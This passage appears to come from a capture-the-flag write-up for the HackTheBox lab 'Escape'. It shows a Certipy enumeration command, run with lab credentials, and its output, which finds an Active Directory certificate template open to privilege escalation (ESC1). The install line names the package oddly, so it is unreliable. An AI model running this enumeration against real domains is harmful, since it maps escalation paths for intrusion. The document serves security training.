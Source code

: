 {% embed url="https://github.com/GhostPack/Certify#compile-instructions" %}

Or, we can use the Python package `certipy` to enumerate from Linux.

{% embed url="https://github.com/ly4k/Certipy#find" %}

And, we can find a vulnerable certificate template named `UserAuthentication`:

{% code overflow="wrap" %}
```bash
$ python3 -m pip install certify-ad
$ certipy find -u 'ryan.cooper@sequel' -p 'NuclearMosquito3' -dc-ip 'escape' -vulnerable -stdout
...
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC-CA' via RRP
[*] Got CA configuration for 'sequel-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
...
Certificate Templates
  0 
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : 16777216
                                          65536
                                          ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Administrator
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
```